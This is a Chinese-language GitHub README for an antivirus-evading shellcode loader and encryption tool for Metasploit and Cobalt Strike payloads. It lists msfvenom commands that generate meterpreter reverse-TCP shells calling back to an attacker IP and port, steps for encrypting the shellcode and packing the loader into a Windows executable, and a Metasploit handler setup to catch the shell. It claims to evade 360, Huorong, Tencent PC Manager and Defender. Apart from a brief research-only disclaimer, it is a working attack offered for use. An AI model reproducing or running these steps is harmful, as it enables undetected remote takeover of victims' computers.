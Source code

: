 # ShellCode_Loader
ShellCode_Loader - Msf&amp;CobaltStrike免杀ShellCode加载器、Shellcode_encryption - 免杀Shellcode加密生成工具，目前测试免杀360&amp;火绒&amp;电脑管家&amp;Windows Defender（其他杀软未测试）。
# 声明
该项目仅供网络安全研究使用，禁止使用该项目进行违法操作，否则自行承担后果，请各位遵守《中华人民共和国网络安全法》！！！
代码未经过大量测试，如发现问题请提交 issue。
# 测试环境
截至2022年9月3日测试时Windows 10 可免国内杀软：火绒&360&电脑管家及Windows Defender（其他杀软自测）

Windows 7 64位 或以上操作系统应该都没问题（没有测试）
# 生成Msf_Payload
### 默认
```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload.c

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f py -o  payload_py.c
```
### XOR 编码器
```
msfvenom -e x64/xor -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor.c
```
### 动态密钥XOR编码器
```
msfvenom -e x64/xor_dynamic -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_xor_dynamic.c
```
### Zutto Dekiru
```
msfvenom -e x64/zutto_dekiru -p windows/x64/meterpreter/reverse_tcp lhost=192.168.30.20 lport=8899 -f c  -o  payload_zutto_dekiru.c
```
# 生成CobaltStrike_Payload
![图片](https://user-images.githubusercontent.com/34683107/188174674-0761d510-264f-47b0-85ea-be5566c0d3f1.png)

选择使用x64的C语言或Python语言的Shellcode。

![图片](https://user-images.githubusercontent.com/34683107/188174724-ddbe398b-d378-4336-a79a-6a7e406659a4.png)

得到一个payload.c的文件

内容为：

![图片](https://user-images.githubusercontent.com/34683107/188178026-bd171622-6f6e-4568-af43-e2d49755220c.png)

# 加密Payload
```
Shellcode_encryption.exe    payload.c
```
![图片](https://user-images.githubusercontent.com/34683107/188175988-d1de1fba-d7ea-4349-acf4-1c7de44d6ad7.png)

# 配置ShellCode加载器
将生成的密文ShellCode 填至 ShellCode_Loader.py 里的 Data = '密文Shellcode' 处
示例：
![图片](https://user-images.githubusercontent.com/34683107/188174998-22cdbaa6-80b2-457b-bfd1-0419ca0816c4.png)
最终格式：
![图片](https://user-images.githubusercontent.com/34683107/188175071-d1396239-5f8f-4fdb-b750-80e2ac6fabd1.png)
# 打包可执行程序(EXE编译环境)
Python 3.8.6

pyinstaller 4.7
```
pip install -r requirements.txt -i https://pypi.tuna.tsinghua.edu.cn/simple
pyinstaller -F -w ShellCode_Loader.py
```
生成ShellCode_Loader.exe在dist目录中
# 上线测试
## 运行监听
```
msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 8080
msf6 exploit(multi/handler) > run
```
![图片](https://user-images.githubusercontent.com/34683107/188175266-31ca4e0b-bb8a-4863-a958-065330c500af.png)
![图片](https://user-images.githubusercontent.com/34683107/188175368-ab9d2f0f-2f92-42ca-b8d6-6980d84d3e51.png)
帮忙点个Star 谢谢
# 感谢阅读
![图片](https://user-images.githubusercontent.com/34683107/188175429-58a71c93-a603-408f-ac9b-c0b616b6467c.png)

